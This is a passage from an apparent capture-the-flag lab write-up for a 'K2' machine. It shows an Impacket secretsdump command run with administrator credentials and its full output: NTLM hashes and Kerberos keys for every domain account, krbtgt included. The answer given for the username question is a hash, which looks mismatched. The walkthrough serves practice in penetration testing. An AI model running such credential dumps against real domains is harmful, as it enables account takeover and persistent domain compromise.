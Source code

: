 
<img width="1290" height="170" alt="image" src="https://github.com/user-attachments/assets/1b4edcb7-6ab2-4258-a15f-42533e26228a" />



<p>2.2. What are the usernames found on the server? List the usernames in alphabetical order separated by a comma. Exclude the Administrator user.<br>
<code>9545b61858c043477c350ae86c37b32f</code></p>

root@ip-10-201-108-225:~/K2# python3.9 /opt/impacket/build/scripts-3.9/secretsdump.py -just-dc Administrator:vz0q\$i8b4c@10.201.43.198
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9545b61858c043477c350ae86c37b32f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:52931bd82602fbebae7b2797b8e6d662:::
r.bud:1113:aad3b435b51404eeaad3b435b51404ee:dcf0d8694be31b7bbd835aa23b185979:::
j.bold:1114:aad3b435b51404eeaad3b435b51404ee:4c539059ae3310237a06f91c90fd395d:::
j.smith:1115:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
K2SERVER$:1008:aad3b435b51404eeaad3b435b51404ee:e5b68684292474368245fcbab29a71b9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:15cf0a0cd0bc5aba8be271dd3beec499b0dd37ef1c4e77fc0506ed490f132a47
Administrator:aes128-cts-hmac-sha1-96:440442038131f232482d2e7ad57cab26
Administrator:des-cbc-md5:02268c98436879d3
krbtgt:aes256-cts-hmac-sha1-96:f1c9d0e6080699ab0e83f4e0346bdb543069377c6624a6481f7df3869b01d355
krbtgt:aes128-cts-hmac-sha1-96:fb5449ed6de55b41fd2de59b6735c93d
krbtgt:des-cbc-md5:4f29b5efa8f2a292
r.bud:aes256-cts-hmac-sha1-96:6c5bae5487134aab074b5e355cad6c5eaf6d5c36eef3fca4ae7735c167d78be2
r.bud:aes128-cts-hmac-sha1-96:f26651c80f9234f704164e41dcc5ddc7
r.bud:des-cbc-md5:8954041a978f02a8
j.bold:aes256-cts-hmac-sha1-96:54cdd00d219c64046d2e8a09d296fb6e41e415d540bd1e49d4478bb38684cd18
j.bold:aes128-cts-hmac-sha1-96:f313e3c88f360fb3ffb13accf22f56a8
j.bold:des-cbc-md5:5dea29dfb5ef894a
j.smith:aes256-cts-hmac-sha1-96:86aab858ae5276659ee85e12b174f9927c2fd01a0ce419fa0ec9b17a506d0648
j.smith:aes128-cts-hmac-sha1-96:eca28cdcefa8f6cf78bda46391c3a533
j.smith:des-cbc-md5:404f26b694c8d5ba
K2SERVER$:aes256-cts-hmac-sha1-96:b1c1afc108d339197fbaffc743c05ce06fd7543fee02d3c28af83c017b230545
K2SERVER$:aes128-cts-hmac-sha1-96:a170b8dcb1cc8f46c7701b7d8cd85869
K2SERVER$:des-cbc-md5:19191f7c01a7ecb5
[*] Cleaning up... 



<img width="1282" height="529" alt="image" src="https://github.com/user-attachments/assets/2239b735-6796-4de7-a381-bdeee63d5bc1" />


<br>
<br>
<br>

<h1 align="center">In Progress</h1>
<p align="center"><img width="1200px" src=" "><br>
                  <img width="1200px" src=" "></p>
